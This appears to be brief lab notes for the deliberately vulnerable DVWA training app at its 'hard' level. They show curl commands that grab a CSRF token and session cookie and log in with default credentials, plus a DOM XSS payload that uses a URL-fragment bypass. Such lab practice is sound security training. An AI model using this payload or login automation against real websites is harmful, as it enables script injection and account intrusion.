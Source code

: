 
### Target

    https://github.com/ethicalhack3r/DVWA

    Security level: hard

### Prereq

    # get user token
    $ TOKEN=$(curl -c dvwa.session -s http://192.168.56.101/DVWA/login.php | grep 'user_token' | awk -F 'value=' '{print $2}' | cut -d"'" -f2)

    # get session id
    $ PHPSESSID=$(grep PHPSESSID dvwa.session | awk -F' ' '{print $7}')

    # log in
    $ curl -L -b "PHPSESSID=${PHPSESSID};security=high" -v -d "username=admin&password=password&Login=Login&user_token=${TOKEN}" http://192.168.56.101/DVWA/login.php

### XSS (DOM)

Trick with anchor ('#') also works here:

    English#<script>alert(1);</script>
